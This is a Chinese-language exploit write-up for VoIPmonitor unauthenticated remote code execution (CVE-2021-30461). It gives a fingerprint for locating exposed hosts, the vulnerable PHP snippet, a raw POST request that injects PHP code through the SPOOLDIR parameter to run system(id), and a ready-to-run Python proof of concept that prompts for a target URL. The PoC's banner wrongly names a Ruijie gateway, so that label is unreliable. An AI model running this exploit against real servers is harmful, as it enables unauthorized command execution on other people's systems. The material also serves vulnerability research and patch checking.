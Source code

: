 # 

# VoIPmonitor 远程命令执行漏洞 CVE-2021-30461

## 漏洞描述

VoIPmonitor是“具有在Linux上运行的SIP RTP和RTCP VoIP协议的具有商业前端的开源网络数据包嗅探器”。

使用通过Web界面到达的用户提供的数据，允许未经身份验证的远程用户触发VoIPmonitor中的远程PHP代码执行漏洞。

## 漏洞影响

```
VoIPmonitor < 24.60
```

## 网络测绘

```
"VoIPmonitor"
```

## 漏洞复现

登录页面如下

![image-20220209130009649](./images/202202091300913.png)

index.php文件中的关键代码

```php
$setConfigurationTypeValue_rslt = array();
if(file_exists('config/configuration.php')) {
	$existsConfiguration = true;
	if(isset($_POST['recheck'])) {
		if(!empty($_POST['SPOOLDIR'])) {
			setConfigurationTypeValue__index('SPOOLDIR', $_POST['SPOOLDIR']);
		}
	}
```

传入参数 recheck 和 SPOOLDIR， 并将**SPOOLDIR** 写入 **config/configuration.php** 中

![image-20220209130028591](./images/202202091300813.png)

发送如下请求包

```plain
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=test%22.system%28id%29.%22&recheck=annen
```

![image-20220209130049113](./images/202202091300382.png)



成功执行命令

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 cli.php RCE                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/index.php"
    data = {"SPOOLDIR": "/tmp", "recheck": "annen"}
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

    POC_2(target_url)

def POC_2(target_url):
    vuln_url = target_url + "/index.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = {"SPOOLDIR": "test\".system(id).\"", "recheck": "annen"}
    print("\033[36m[o] 正在执行命令 id .....\033[0m")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
        if "uid=" in response.text:
            print("\033[36m[o] 成功执行 id, 目标存在漏洞.....\033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            exit()
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

![image-20220209130112258](./images/202202091301601.png)
